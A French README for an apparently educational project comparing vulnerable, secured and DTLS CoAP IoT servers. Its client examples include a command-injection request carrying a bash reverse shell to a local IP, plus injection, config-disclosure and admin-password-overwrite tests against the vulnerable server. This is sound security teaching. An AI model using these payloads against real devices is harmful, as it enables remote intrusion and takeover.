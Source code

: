 # Serveurs CoAP pour l'IoT - Exemples de Sécurité

Ce projet contient trois implémentations de serveurs CoAP (Constrained Application Protocol) pour l'Internet des Objets (IoT), chacune avec différents niveaux de sécurité. Ces implémentations sont destinées à des fins éducatives pour comprendre les vulnérabilités courantes et les bonnes pratiques de sécurité dans les applications IoT.

## Aperçu des serveurs

1. **Serveur vulnérable** (`vulnerable_coap_server.py`) : 
   - Version avec de nombreuses vulnérabilités
   - Ne pas utiliser en production !
   - Utile pour démontrer les risques de sécurité

2. **Serveur sécurisé** (`secure_coap_server.py`) :
   - Version avec authentification par jetons
   - Validation des entrées
   - Gestion sécurisée des configurations sensibles

3. **Serveur DTLS** (`dtls_coap_server.py`) :
Nous ne sommes pas parvenus à le faire fonctionner, mais il est inclus pour référence.
   - Tentative d'ajout du chiffrement DTLS (Datagram TLS)
   - Utilise des clés pré-partagées pour l'authentification
   - Combine chiffrement des communications avec certaines des vulnérabilités du premier serveur

## Prérequis

- Python 3.13 (version avec laquelle le code a été testé)
- Bibliothèque aiocoap
- Bibliothèque tinydtls pour la version DTLS

Installation des dépendances :
```bash
pip install aiocoap
```

## Utilisation

### Démarrage des serveurs

Choisissez un des serveurs selon vos besoins :

```bash
# Serveur vulnérable (port 5683)
python vulnerable_coap_server.py

# Serveur sécurisé avec authentification (port 5683)
python secure_coap_server.py

# Serveur avec chiffrement DTLS (ports 5683 et 5684)
python dtls_coap_server.py
```

### Accès aux ressources

Les trois serveurs exposent des ressources similaires :

- `/sensors/temperature` - Données de température
- `/sensors/sound` - Données sonores
- `/sensors/presence` - Données de présence
- `/sensors` - Toutes les données des capteurs
- `/config` - Configuration du serveur

Le serveur sécurisé ajoute :
- `/auth` - Authentification et génération de jetons
- `/status` - État du serveur

### Exemples d'utilisation

#### Avec un client CoAP comme `coap-client` :

Pour le client, nous avons utilisé la librairie libcoap.

```bash
# Installation de libcoap (si nécessaire)
git clone https://github.com/obgm/libcoap
cd libcoap
sudo apt install libtool
./autogen.sh
sudo apt install doxygen
sudo apt install asciidoc
./configure --disable-dtls # Pour la version avec le serveur vulnérable
# ou
 ./configure --enable-dtls --with-tinydtls --disable-shared # Pour la version DTLS
sudo make
sudo make install
sudo make all
```

Requêtes de test client vers serveur avec `coap-client` depuis le répertoire `libcoap/examples` :

```bash
# Requête GET sur le serveur non sécurisé
./coap-client -m get "coap://192.168.2.76:5683/sensors/presence"

# Requête PUT sur le serveur vulnérable
./coap-client -m put -e '{"value": 9999, "unit": "Test", "device_id": "temp1"}' coap://192.168.2.76:5683/sensors/temperature

# Requête POST sur le serveur vulnérable avec injection de commande
./coap-client -m post -e "bash -c 'bash -i >& /dev/tcp/192.168.2.26/444
4 0>81'" coap://192.168.2.76:5683/sensors/temperature

# Authentification sur le serveur sécurisé
./coap-client -m post -t json -e '{"username": "admin", "password": "ad
min_password"}' coap://192.168.2.76:5683/auth

# Requête avec token d'authentification
./coap-client -m get coap://192.168.2.76:5683/sensors/temperature?token
=votre_token_ici

# Requête sur le serveur DTLS
./coap-server -A 0.0.0.0 -k 1234 # Pour le serveur DTLS
./coap-client -m get coaps://192.168.2.76/time -k 1234 -u CoAP # Pour le client DTLS
```

## Comparaison des fonctionnalités de sécurité

| Fonctionnalité | Serveur vulnérable | Serveur sécurisé | Serveur DTLS |
|----------------|--------------------|--------------------|--------------|
| Authentification | ❌ | ✅ (Tokens) | ✅ (DTLS PSK) |
| Chiffrement | ❌ | ❌ | ✅ |
| Validation des entrées | ❌ | ✅ | ❌ |
| Protection contre injection | ❌ | ✅ | ❌ |
| Gestion sécurisée des configs | ❌ | ✅ | ❌ |

## Vulnérabilités à tester (serveur vulnérable)

1. **Injection de commandes** : 
   ```
   coap-client -m post -e 'ls -la' coap://localhost:5683/sensors/temperature
   ```

2. **Exposition de données sensibles** :
   ```
   coap-client -m get coap://localhost:5683/config
   ```

3. **Modification non autorisée de configuration** :
   ```
   coap-client -m put -e '{"admin_password":"hacked"}' coap://localhost:5683/config
   ```

## Avertissement

Ce code est fourni uniquement à des fins éducatives et de recherche. Ne déployez pas les versions vulnérables sur des réseaux de production.
